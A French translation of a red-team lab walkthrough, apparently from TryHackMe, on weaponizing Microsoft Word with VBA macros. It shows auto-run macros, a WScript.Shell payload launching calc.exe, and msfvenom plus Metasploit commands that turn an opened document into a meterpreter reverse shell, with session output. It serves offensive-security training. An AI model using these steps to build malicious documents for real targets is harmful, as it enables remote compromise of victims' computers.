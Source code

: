 Visual Basic pour Application (VBA)
===============================

Visual Basic pour Application (VBA)

VBA signifie Visual Basic pour Applications, un langage de programmation de Microsoft mis en œuvre pour les applications Microsoft telles que Microsoft Word, Excel, PowerPoint, etc. La programmation VBA permet d'automatiser les tâches de presque toutes les interactions clavier et souris entre un utilisateur et les applications Microsoft Office.

Les macros sont des applications Microsoft Office qui contiennent du code intégré écrit dans un langage de programmation connu sous le nom de Visual Basic pour Applications (VBA). Il est utilisé pour créer des fonctions personnalisées pour accélérer les tâches manuelles en créant des processus automatisés. [L'une des fonctionnalités de VBA consiste à accéder à l'interface de programmation d'applications ( API ](https://en.wikipedia.org/wiki/Windows_API)) de Windows  et à d'autres fonctionnalités de bas niveau . Pour plus d'informations sur VBA, rendez-vous [ici](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications) . [](https://en.wikipedia.org/wiki/Windows_API)[](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications)

Dans cette tâche, nous discuterons des bases de VBA et de la manière dont l'adversaire utilise des macros pour créer des documents Microsoft malveillants. Pour suivre le contenu de cette tâche, assurez-vous de déployer la machine Windows attachée dans la tâche 2. Lorsqu'elle sera prête, elle sera disponible via un accès dans le navigateur.

Ouvrez maintenant Microsoft Word 2016 à partir du menu Démarrer. Une fois ouverte, nous fermons la fenêtre de la clé de produit car nous l'utiliserons pendant la période d'essai de sept jours.

![2ceed0307819cf06500e6524a5f632d7](https://github.com/dsgsec/Red-Team/assets/82456829/54bdbea9-8024-4e6a-b2f7-a712a8318588)

Ensuite, assurez-vous d'accepter le contrat de licence Microsoft Office qui s'affiche après la fermeture de la fenêtre de la clé de produit.

![feb2f077507c6c242658e76ee88fb544](https://github.com/dsgsec/Red-Team/assets/82456829/bcaf6aa6-70f3-452a-a1cc-18797ce086b1)

Créez maintenant un nouveau document Microsoft vierge pour créer notre première  macro . L'objectif est de discuter des bases du langage et de montrer comment l'exécuter lorsqu'un document Microsoft Word est ouvert. Tout d'abord, nous devons ouvrir Visual Basic Editor en sélectionnant  view →  macros . La fenêtre Macros montre comment créer notre propre macro dans le document. 

![5e12755e9b891865c6ef07e25047060b](https://github.com/dsgsec/Red-Team/assets/82456829/ead6531c-4c08-4e77-ab41-a1cbd1d77f71)

Dans la  section Nom de la macro  , nous choisissons de nommer notre macro  THM . Notez que nous devons  sélectionner parmi les  macros de  la liste Document1  et enfin sélectionner  créer . Ensuite, l'éditeur Microsoft Visual Basic pour Application montre où nous pouvons écrire du code VBA. Essayons d'afficher une boîte de message avec le message suivant :  Welcome to Weaponization Room ! . Nous pouvons le faire en utilisant la  fonction MsgBox  comme suit :

```
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```

Enfin, exécutez la macro par F5 ou Run → Run Sub/UserForm .

Maintenant, pour exécuter le code VBA automatiquement une fois le document ouvert, nous pouvons utiliser des fonctions intégrées telles que  AutoOpen  et  Document_open . Notez que nous devons spécifier le nom de la fonction qui doit être exécutée une fois le document ouvert, qui dans notre cas est la   fonction THM .

```
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

Il est important de noter que pour que la macro fonctionne, nous devons l'enregistrer au format Macro-Enabled tel que .doc et  docm . Maintenant, enregistrons le fichier en tant que modèle Word 97-2003 où la macro est activée en allant dans Fichier → enregistrer Document1 et enregistrer en tant que type → Document Word 97-2003  et enfin, enregistrer .

![a5e35b7436173da709dae5695c34d4f9](https://github.com/dsgsec/Red-Team/assets/82456829/578fa2e0-b10a-43a0-9b8e-90d24b0d6449)

Fermons le document Word que nous avons enregistré. Si nous rouvrons le fichier du document, Microsoft Word affichera un message de sécurité indiquant que les macros ont été désactivées et nous donnera la possibilité de l'activer. Activons-le et allons de l'avant pour vérifier le résultat.

![e140bfbce59d6cf3e71489dba094adc2](https://github.com/dsgsec/Red-Team/assets/82456829/88f85747-f0b5-432e-815c-868d20783b22)

Une fois que nous avons autorisé  Enable Content , notre macro est exécutée comme indiqué,

![ca228c238732dcdf21139317992a0083](https://github.com/dsgsec/Red-Team/assets/82456829/d8d8ef29-5448-4d84-a0f8-41cb909b1d3d)

Maintenant, éditez le document Word et créez une fonction macro qui exécute un calc.exe  ou tout fichier exécutable comme preuve de concept comme suit,

```
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

Pour expliquer le code en détail, avec  Dim payload As String, nous déclarons la variable de charge utile  sous forme de chaîne à l'aide du mot-clé Dim  . Avec  payload = "calc.exe", nous spécifions le nom de la charge utile et enfin avec  CreateObject("Wscript.Shell").Run payload, nous créons un objet Windows Scripting Host (WSH) et exécutons la charge utile. Notez que si vous souhaitez renommer le nom de la fonction, vous devez également inclure le nom de la fonction dans les  fonctions AutoOpen() et Document_open() .    

Assurez-vous de tester votre code avant d'enregistrer le document en utilisant la fonction d'exécution dans l'éditeur. Assurez-vous de créer les fonctions AutoOpen() et Document_open() avant d'enregistrer le document. Une fois que le code fonctionne, enregistrez maintenant le fichier et essayez de l'ouvrir à nouveau.

![5c80382621d3fcb578a9e128ca821e71](https://github.com/dsgsec/Red-Team/assets/82456829/0f813bbb-9d19-4531-8ab1-4b45e632f00d)

Il est important de mentionner que nous pouvons combiner les VBA avec des méthodes précédemment couvertes, telles que les HTA et les WSH. Les VBA/macros en eux-mêmes ne contournent intrinsèquement aucune détection.

Répondre aux questions ci-dessous

Créons maintenant une charge utile meterpreter en mémoire à l'aide du framework Metasploit pour recevoir un reverse shell. Tout d'abord, à partir de l'AttackBox, nous créons notre charge utile meterpreter en utilisant  msfvenom . Nous devons spécifier  Payload , LHOST et  LPORT , qui correspondent à ce qui se trouve dans le framework Metasploit . Notez que nous spécifions la charge utile en tant que  VBA  pour l'utiliser comme macro.  

Terminal

```
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes

```

La valeur de  LHOST  dans le terminal ci-dessus  est un exemple de l'adresse IP d'AttackBox que nous avons utilisée. Dans votre cas, vous devez spécifier l'adresse IP de votre AttackBox.

Importez de noter qu'une modification doit être effectuée pour que cela fonctionne. La sortie fonctionnera sur une feuille MS Excel. Par conséquent, remplacez  Workbook_Open() par  Document_Open() pour l'adapter aux documents MS Word.  

Copiez maintenant la sortie et enregistrez-la dans l'éditeur de macros du document MS Word, comme nous l'avons montré précédemment.

Depuis la machine attaquante, exécutez le framework Metasploit et configurez l'écouteur comme suit :

Terminal

```
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.159.15:443

```

Une fois le document MS Word malveillant ouvert sur la machine victime, nous devrions recevoir un reverse shell.

Terminal

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.159.15:443
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
```
